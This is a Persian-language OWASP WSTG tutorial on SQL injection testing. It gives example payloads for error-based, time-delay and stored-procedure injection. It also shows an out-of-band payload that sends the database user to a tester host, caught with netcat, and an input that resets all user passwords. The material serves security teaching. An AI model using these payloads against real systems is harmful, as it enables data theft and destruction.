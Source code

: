 # بررسی SQL Injection

در این بخش از دوره آموزشی OWASP-WSTG به هفتمین بخش از استاندارد WSTG با شناسه WSTG-INPV-05 می پردازیم که مربوط به بررسی SQL Injection می باشد. لازم به ذکر است با توجه به طولانی بودن مبحث تزریق SQL، این بخش از استاندارد OWASP در چندین قسمت قرار داده می شود.

### تکنیک Error Based Exploitation Technique

یک تکنیک Error Based Exploitation زمانی مفید است که تست نفوذگر به دلایلی نمی‌تواند از آسیب‌پذیری تزریق SQL با استفاده از تکنیک‌های دیگر مانند Union استفاده کند. تکنیک Error Based Exploitation شامل مجبور کردن پایگاه‌داده برای اجرای برخی از عملیات‌ها می‌باشد که نتیجه آن بروز یک خطا خواهد بود. سپس تلاش برای استخراج برخی از داده‌ها از پایگاه‌داده و نشان دادن آن در پیام خطا است. این تکنیک بهره‌برداری می‌تواند از DBMS به DBMS دیگر متفاوت باشد.

پرس و جوی SQL زیر را در نظر بگیرید:
```sql
SELECT * FROM products WHERE id_product=$id_product
```


همچنین برنامه ای را در نظر بگیرید که پرس و جوی بالا را اجرا می‌کند:
```url
http://www.example.com/product.php?id=10
```
درخواست بدخواهانه می‌تواند (به عنوان مثال برای Oracle 10g) به شکل زیر باشد:
```sql
http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
```
در این مثال، تست نفوذگر مقدار ۱۰ را با نتیجه تابع UTL_INADDR.GET_HOST_NAMEالحاق می‌کند. این تابع در Oracle تلاش خواهد کرد تا Hostname پارامتری که به آن ارسال شده است را بازگرداند که عبارت دیگر کوئری، نام کاربر است. زمانی که پایگاه‌داده به دنبال یک نام میزبان با نام پایگاه‌داده کاربر باشد، شکست خواهد خورد و یک پیغام خطا مانند زیر نمایش می‌دهد:
```text
ORA-292257: host SCOTT unknown
```
سپس تست نفوذگر می‌تواند پارامتر منتقل‌شده به تابع GET_HOST_NAME() را دستکاری کند و نتیجه در پیام خطا نشان داده خواهد شد.

### تکنیک Out of Band Exploitation Technique

این تکنیک زمانی بسیار مفید است که تست نفوذگر یک SQL Injection از نوع Blind را پیدا کند که در آن هیچ چیز در مورد نتیجه یک عملیات معلوم نیست. این تکنیک شامل استفاده از توابع DBMS برای انجام یک اتصال خارج از باند و تحویل نتایج پرس و جوی تزریق‌شده به عنوان بخشی از درخواست به سرور تست نفوذگر است. مانند تکنیک‌های مبتنی بر خطا، هر DBMS ویژگی‌های مخصوص به خود را دارد.

پرس و جوی SQL زیر را در نظر بگیرید:
```sql
SELECT * FROM products WHERE id_product=$id_product
```
همچنین برنامه ای را در نظر بگیرید که پرس و جوی بالا را اجرا می‌کند:
```url
http://www.example.com/product.php?id=10
```

درخواست بدخواهانه می‌تواند به شکل زیر باشد:
```sql
http://www.example.com/product.php?id=10||UTL_HTTP.request('testerserver.com:80' || (SELECT user FROM DUAL)--
```
در این مثال، تست نفوگر مقدار ۱۰ را با نتیجه تابع UTL_HTTP.requestبه هم متصل می‌کند. این تابع Oracle تلاش خواهد کرد تا به testerserver متصل شود و یک درخواست HTTP GET شامل بازگشت از کاربر SELECT پرس و جو از DAL ایجاد کند. تستر می‌تواند یک وب سرور (‏به عنوان مثال Apache)‏ایجاد کند یا از ابزار Netcat استفاده کند:

```js
/home/tester/nc -nLp 80
GET /SCOTT HTTP/1.1 
Host: testerserver.com 
Connection: close
```
### تکنیک Time Delay Exploitation Technique

تکنیک Time Delay Exploitation زمانی بسیار مفید است که تست نفوذگر آسیب پذیری Blind SQL Injection ای را پیدا کند که در آن نتیجه یک عملیات، مشخص نیست.
این تکنیک شامل ارسال یک پرس و جوی دارای تاخیر زمانی به سمت برنامه بوده و تست نفوذگر می‌تواند با بررسی زمان پاسخ بازگشت داده شده از سرور، در صورت صحیح بودن شرایط، اطلاعات مورد نظر را استخراج نماید. این تکنیک بهره‌برداری می‌تواند از DBMS به DBMS دیگر متفاوت باشد.

پرس و جوی SQL زیر را در نظر بگیرید:
```sql
SELECT * FROM products WHERE id_product=$id_product
```
همچنین برنامه ای را در نظر بگیرید که پرس و جوی بالا را اجرا می‌کند:
```url
http://www.example.com/product.php?id=10
```
درخواست مخرب می‌تواند به عنوان مثال در MySql نسخه 5 به شکل زیر باشد:
```url
http://www.example.com/product.php?id=10 AND IF (version() like ‘5%', sleep(10),'false')) --
```
در این مثال، تست نفوذگر بررسی می‌کند که آیا نسخه MySql ۵ است یا خیر. وی می‌تواند زمان تاخیر را افزایش دهد و پاسخ‌ها را نظارت کند.

### تکنیک Stored Procedure Injection

هنگام استفاده از SQL پویا در یک Stored Procedure، برنامه باید به درستی ورودی کاربر را برای از بین بردن خطر تزریق کد، Sanitize کند. اگر پاک‌سازی به درستی انجام نشود، کاربر می‌تواند دستورات SQL مورد نظر خود را وارد نماید که در Stored Procedure اجرا خواهد شد.

این Stored Procedure زیر را در نظر بگیرید:
```sql
Create procedure user_login @username varchar(20), @passwd varchar(20)
As
Declare @sqlstring varchar(250)
Set @sqlstring = ''
Select 1 from users
Where username = '+ @username + ' and passwd = ' + @passwd '
exec(@sqlstring)
Go
```
ورودی کاربر:
```sql
anyusername or 1=1' 
anypassword
```

این روش ورودی را Sanitize نمی‌کند، بنابراین به مقدار بازگشت اجازه می‌دهد تا یک رکورد موجود با این پارامترها را نشان دهد.

این مثال ممکن است به دلیل استفاده از SQL پویا برای ورود یک کاربر، غیر محتمل به نظر برسد، اما یک Dynamic Reporting Query را در نظر بگیرید که در آن کاربر ستون‌ها را برای مشاهده انتخاب می‌کند. کاربر می‌تواند کد مخرب را وارد این سناریو کرده و داده‌ها را به خطر بیاندازد.

مورد Stored Procedure زیر را در نظر بگیرید:
```sql
Create
procedure get_report @columnamelist varchar(7900)
As
Declare @sqlstring varchar(8000)
Set @sqlstring = ‘’
Select ‘+ @columnamelist + ‘ from ReportTable'
exec(@sqlstring)
Go
```
ورودی کاربر:
'''sql
1 from users; update users set password = 'password'; select *
'''

این امر منجر به اجرای گزارش و به روز رسانی تمام گذرواژه‌های کاربران خواهد شد.
